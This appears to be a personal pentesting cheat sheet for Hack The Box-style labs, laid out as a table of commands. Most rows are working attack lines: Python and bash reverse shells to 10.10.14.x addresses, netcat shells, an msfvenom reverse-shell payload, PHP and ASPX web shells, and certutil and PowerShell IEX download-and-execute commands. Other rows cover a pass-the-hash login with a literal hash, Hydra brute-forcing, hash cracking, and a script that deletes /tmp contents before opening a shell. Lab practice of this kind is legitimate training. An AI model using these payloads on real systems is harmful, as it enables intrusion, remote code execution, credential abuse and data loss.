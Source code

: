 ```yaml
---
# the default layout is 'page'
icon: fas fa-info-circle
order: 2
---
```


<div align="center">
<h2>Helpful Syntaxes</h2>
</div>

| **Action** | **Syntax** |
| --- | --- |
| Dirbusting | `gobuster dir --url http://10.10.10.56/82/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php,asp,aspx`<br>`dirbuster&`<br>`dirsearch -u http://10.10.10.9/ -e php -x 403,404 -t 50` |
| Setting up a listener | `nc -nlvp 4444`<br>`C:\wmpub\nc.exe -e cmd.exe 10.10.14.46 1556`<br>`?cmd=nc.exe -e cmd.exe 10.10.14.31 4314` |
| Python reverse shell | `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.16",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` |
| Simple file/exploit creation | `echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.46",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > exploit.py` |
| Local exploit suggester | `run post/multi/recon/local_exploit_suggester` |
| msfvenom payload | `msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.7 LPORT=1234 -o shell.aspx` |
| curl usage | `curl -X MOVE --header 'Destination:http://10.10.10.15/test.aspx' 'http://10.10.10.15/test.html'`<br>`curl -X PUT http://10.10.10.15/shell.txt -d @shell.txt` |
| Generic meterpreter shell | `use exploit/multi/handler`<br>`set payload windows/meterpreter/reverse_tcp` |
| Hosting the file for making it downloadable for another user | `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`<br>`copy \\10.10.14.46\kali\churrasco.exe C:\wmpub\churrasco.exe`<br>`copy \\10.10.14.46\kali\churrasco.exe C:\wmpub\churrasco.exe 1 file(s) copied.` |
| Hydra bruteforce | `hydra 10.10.10.43 -l muq -P /usr/share/seclists/Passwords/twitter-banned.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password”` |
| PHP injection | `<?php system($_REQUEST["cmd"]); ?>`<br>`<?php echo system($_REQUEST['cmd']); ?>` |
| Bash reverse shell | `bash -c 'bash -i >%26 /dev/tcp/10.10.14.19/443 0>%261'` |
| Bash spawn / Python | `python -c 'import pty;pty.spawn("bash")'` |
| Shell upgrade | `stty -a`<br>`stty raw -echo;fg —> hit enter twice`<br>`stty rows`<br>`stty cols` |
| Script for listing processes | `#!/bin/bash`<br>`#loop by line`<br>`IFS=$'\n'`<br>`old_process=$(ps -eo command)`<br>`while true; do new_process=$(ps -eo command)`<br>`diff <(echo "$old_process") <(echo "$new_process") |grep [\<\>]`<br>`sleep 1`<br>`old_process=$new_process done` |
| Checking for hidden content inside an image | `binwalk -Me` |
| Python code cleanup format | `:%s/;/\r/g` |
| Windows exploit suggester script | `python windows-exploit-suggester.py -d 2024-08-02-mssb.xls -i sysinfo.txt` |
| Searchsploit | `-x ; to look up the content of the exploit , mousepad for gui ,  -m to download` |
| Copying nc | `cp /usr/share/windows-binaries/nc.exe .` |
| Simple HTTPS server | `python -m SimpleHTTPServer 80` |
| Getting something from the simple server [WINDOWS-powershell] | `powershell -c "Invoke-WebRequest -Uri http://10.10.14.8/41020.exeChimichurri.exe -OutFile C:\ColdFusion8\runtime\bin\Chimichurri.exe"` |
| Hashcat | `hashcat -m 100 hash.txt /usr/share/wordlists/rockyou.txt` |
| Certutil | `certutil -urlcache -f http://10.10.14.41/Chimichurri.exe chimichurri.exe`<br>`?cmd=certutil.exe -f -urlcache -split http://10.10.14.31/nc.exe nc.exe` |
| Wpscan script | `wpscan —url https://brainfuck.htb — disable-tls-checks` |
| John usage | `john crackthis --wordlist=/usr/share/wordlists/rockyou.txt` |
| SSH login w RSA key | `ssh -i  id_rsa orestis@brainfuck.htb` |
| PHP shell | `<?php system($_REQUEST["cmd"]); ?>` |
| DNS zone transfer | `USAGE- dig axfr @<DNS_IP> <DOMAIN>` |
| PHP reverse shell | `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php` |
| Useful nmap script | `—script=oracle-sid-brute 10.10.10.12` |
| Nishang reverse shell | `cp /opt/powershell/nishang/Shells/Invoke-PowerShellTcp.ps1` |
| ASPX web shell | `/usr/share/webshells/aspx/cmdasp.aspx muq.aspx` |
| Using PowerShell to exec. content downloaded as a string | `powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/nish.ps1')` |
| Volatility | `python3 http://vol.py/ -f ~/Downloads/SILO-20180105-221806.dmp kdbgscan`<br>`python2 http://vol.py/ -f ~/Downloads/SILO-20180105-221806.dmp --profile Win2012R2x64 pstree` |
| Using hash dump | `pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 https://10.10.10.82/ cmd` |
| Reverse shell | `#!/usr/bin/env python`<br>`import os`<br>`import sys`<br>`try:`<br>`os.system('rm -r /tmp/* ')`<br>`except:`<br>`sys.exit()`<br>`os.system('bash -c "bash -i >& /dev/tcp/10.10.14.47/443 0>&1"')` |

<br>

<div align="center">
<h2>Useful Links</h2>
</div>

<div align="center">

| **Description** | **Link** |
| --- | --- |
| Reverse shell cheat sheet | [Pentestmonkey Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) |
| SQL injection cheat sheet | [SQL Injection Cheat Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/) |
| Crontab Guru | [Crontab Guru](https://crontab.guru/) |
| PHP reverse shell | [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) |

</div>
